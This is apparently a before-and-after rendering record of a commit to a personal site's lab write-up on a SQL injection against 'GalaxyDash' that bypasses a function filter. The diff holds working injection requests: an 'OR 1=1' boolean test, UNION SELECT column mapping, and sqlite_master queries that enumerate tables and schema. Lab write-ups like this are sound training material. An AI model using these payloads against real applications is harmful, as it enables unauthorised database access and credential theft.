

Before and after one commit to d4rkto0th/d4rkto0th.github.io, a Jekyll site: the page built from labs/webapp/GalaxyDash (SQLi - Function Filter Bypass).md, in a window 1280 px wide and 1400 px high, scrolled down 3607 px. Shown: the whole window at 96% size, without its empty margins (190-1089 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
fix error in writeup

````diff
--- a/labs/webapp/GalaxyDash (SQLi - Function Filter Bypass).md
+++ b/labs/webapp/GalaxyDash (SQLi - Function Filter Bypass).md
@@ -71,9 +71,9 @@ JWT Bearer token for API authentication
 ## Attack Chain Visualization
 ```
 ┌─────────────────────┐     ┌──────────────────────┐     ┌─────────────────────┐
-│  Reconnaissance     │────▶│  Injection Discovery  │────▶│  Filter Analysis    │
-│  Map API endpoints  │     │  ?status=pending'     │     │  Functions blocked  │
-│  /api/bookings      │     │  Error confirms SQLi  │     │  Subselects blocked │
+│  Reconnaissance     │────▶│  Injection Discovery │────▶│  Filter Analysis    │
+│  Map API endpoints  │     │  ?status=pending'    │     │  Functions blocked  │
+│  /api/bookings      │     │  Error confirms SQLi │     │  Subselects blocked │
 └─────────────────────┘     └──────────────────────┘     └─────────────────────┘
                                                                    │
                                                                    ▼
@@ -108,9 +108,9 @@ Authorization: Bearer <jwt>
 
 Boolean confirmation:
 ```http
-GET /api/bookings?status=' OR 1=1-- HTTP/1.1
+GET /api/bookings?status=pending' OR 1=1-- HTTP/1.1
 ```
-**Result:** Returned all bookings regardless of status.
+**Result:** Returned bookings or empty array.
 
 ### Step 2: Determine Column Count
 Used ORDER BY to binary search for column count:
@@ -122,7 +122,7 @@ Used ORDER BY to binary search for column count:
 
 ### Step 3: Map Output Positions
 ```http
-GET /api/bookings?status=' UNION SELECT 1,2,3,...,26-- HTTP/1.1
+GET /api/bookings?status=pending' UNION SELECT 1,2,3,...,26-- HTTP/1.1
 ```
 **Result:** All 26 positions visible. Key mappings: status=18, created_at=19, created_by_username=26.
 
@@ -153,12 +153,7 @@ Instead of using subselects or aggregate functions, make sqlite_master the FROM
 ```http
 GET /api/bookings?status=' UNION SELECT 1,2,...,17,name,19,...,26 FROM sqlite_master LIMIT 1-- HTTP/1.1
 ```
-**Result:** First table name returned. Iterated with `LIMIT 1 OFFSET N` to enumerate all tables.
-
-Got schema with the sql column:
-```http
-GET /api/bookings?status=' UNION SELECT 1,2,...,17,sql,19,...,26 FROM sqlite_master LIMIT 1 OFFSET 0-- HTTP/1.1
-```
+**Result:** First table name returned. Iterated with `LIMIT 1 OFFSET N` to enumerate all tables. Discovered "users" table.
 
 ### Step 6: Extract Credentials and Flag
 ```http
````
Also changed, not shown: other parts of labs/webapp/GalaxyDash (SQLi - Function Filter Bypass).md (+1 -1 lines).
